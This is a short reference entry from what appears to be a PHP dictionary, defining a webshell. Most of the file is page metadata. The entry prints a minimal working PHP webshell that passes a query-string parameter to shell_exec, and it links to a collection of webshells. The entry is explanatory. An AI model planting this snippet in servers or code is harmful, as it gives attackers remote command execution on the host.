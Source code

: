 .. _webshell:
.. meta::
	:description:
		Webshell: A webshell is a malicious script uploaded to a web server that allows an attacker to remotely control the server using a web browser.
	:twitter:card: summary_large_image
	:twitter:site: @exakat
	:twitter:title: Webshell
	:twitter:description: Webshell: A webshell is a malicious script uploaded to a web server that allows an attacker to remotely control the server using a web browser
	:twitter:creator: @exakat
	:twitter:image:src: https://php-dictionary.readthedocs.io/en/latest/_static/logo.png
	:og:image: https://php-dictionary.readthedocs.io/en/latest/_static/logo.png
	:og:title: Webshell
	:og:type: article
	:og:description: A webshell is a malicious script uploaded to a web server that allows an attacker to remotely control the server using a web browser
	:og:url: https://php-dictionary.readthedocs.io/en/latest/dictionary/webshell.ini.html
	:og:locale: en
.. raw:: html

	<script type="application/ld+json">{"@context":"https:\/\/schema.org","@graph":[{"@type":"WebPage","@id":"https:\/\/php-dictionary.readthedocs.io\/en\/latest\/tips\/debug_zval_dump.html","url":"https:\/\/php-dictionary.readthedocs.io\/en\/latest\/tips\/debug_zval_dump.html","name":"Webshell","isPartOf":{"@id":"https:\/\/www.exakat.io\/"},"datePublished":"Sat, 28 Jun 2025 13:34:06 +0000","dateModified":"Sat, 28 Jun 2025 13:34:06 +0000","description":"A webshell is a malicious script uploaded to a web server that allows an attacker to remotely control the server using a web browser","inLanguage":"en-US","potentialAction":[{"@type":"ReadAction","target":["https:\/\/php-dictionary.readthedocs.io\/en\/latest\/dictionary\/Webshell.html"]}]},{"@type":"WebSite","@id":"https:\/\/www.exakat.io\/","url":"https:\/\/www.exakat.io\/","name":"Exakat","description":"Smart PHP static analysis","inLanguage":"en-US"}]}</script>


Webshell
--------

A webshell is a malicious script uploaded to a web server that allows an attacker to remotely control the server using a web browser.

.. code-block:: php
   
   <?php
   
       echo shell_exec($_GET['cmd']);
   
   ?>


`Documentation <https://en.wikipedia.org/wiki/Web_shell>`__

See also https://github.com/tennc/webshell
